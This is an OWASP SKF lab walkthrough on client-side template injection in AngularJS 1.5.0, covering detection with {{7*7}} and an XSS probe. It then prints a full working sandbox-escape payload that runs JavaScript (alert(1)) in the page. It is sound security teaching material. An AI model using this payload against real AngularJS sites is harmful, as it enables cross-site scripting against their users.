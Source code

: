 # KBID 111 - Client Side Template Injection 


## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csti 
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti  
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](.gitbook/assets/csti-1.png) 

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```html
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try! 

{% hint style="info" %}We are going to use the same payload of the XSS lab{% endhint %}

```html
"><script>alert('XSS')</script>
```
Unfortunately the alert does not trigger :(

![](.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3 

{% hint style="warning" %}How do we get XSS?{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result. 

![](.gitbook/assets/csti-3.png)

{% hint style="success" %}Bingo!!{% endhint %}

## Exploitation 

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers. 

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit: 

* break the sanitizer
* escape the sandbox 
* forge a working payload 

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular. 

#### Step 1 

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```
We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2 

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```
We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute  JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes"%}
{% embed url="https://docs.angularjs.org/guide/security"%}


